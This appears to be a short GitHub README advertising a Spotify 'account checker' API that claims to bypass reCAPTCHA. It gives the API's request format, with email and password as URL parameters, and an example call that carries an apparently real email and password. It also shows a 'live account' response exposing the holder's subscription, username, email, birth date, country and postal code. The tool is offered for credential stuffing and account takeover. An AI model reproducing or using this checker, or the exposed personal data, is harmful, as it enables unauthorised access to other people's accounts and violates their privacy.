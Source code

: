 # spotify

Spotify Account Checker Api bypass reCaptcha

Api : http://sayank-km.xyz/api/
Account Checker : http://sayank-km.xyz/spotify/

?email= (required). Email
&pass= (required). Password

Example : http://sayank-km.xyz/api/?email=nblh.ayu@gmail.com&pass=ikhsan

Live Account 

{"status":"success","error":"none","subscription":"Premium for Students","Berlaku hingga":["9\/23\/18"],"Nama pengguna":["nblh"],"Email":["nblh.ayu@gmail.com"],"Tanggal lahir":["4\/20\/94"],"Negara":["ID"],"Kode pos":["46124"]}

Die Account

{"status":"fail","error":"errorInvalidCredentials"}


Fb me : https://www.facebook.com/m.1khs4n


